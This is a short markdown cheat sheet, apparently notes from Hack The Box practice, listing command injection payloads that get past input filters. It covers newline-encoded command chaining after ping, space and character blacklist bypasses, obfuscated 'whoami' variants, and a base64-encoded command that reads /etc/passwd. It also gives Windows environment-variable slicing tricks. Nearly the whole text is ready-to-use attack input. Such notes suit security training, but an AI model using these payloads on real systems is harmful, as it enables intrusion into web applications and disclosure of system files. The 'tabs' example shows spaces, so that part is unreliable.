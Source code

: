### Use new-line instead of ; or &
#### Example: 
```bash
ping 0.0.0.0%0als
```
The `%0a` is an encodded `\n` that will execute the ls command afterwards

<hr>

### Use tabs instead of spaces (bypass spaces blacklist)
```bash
ping 0.0.0.0;ls  -l
```

<hr>

### Bypass some characters
#### Shift the character
```bash
echo $(tr '!-}' '"-~'<<<[) # this will result in \
```
#### Extract the character from a env variable
```bash
$(echo	${PATH:0:1})
```
#### words blacklist
```
wh$(echo "am")i # whoami
whoa$@mi # whoami
who"a"mi # whoami
$(tr "[0-9]" "\0"<<<"who420ami") # whoami
```

<hr>

### Cool commands
```bash
print # instead of echo
printenv # print all env variables
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) # run b64 command
grep mysql <<< $(ls) # avoid using pipes |
```

<hr>

### WINDOWS ?

```cmd
C:\htb> echo %HOMEPATH:~6,-11%  # will result in \
PS C:\htb> $env:HOMEPATH[0] # will result in \
PS C:\htb> $env:PROGRAMFILES[10]
```
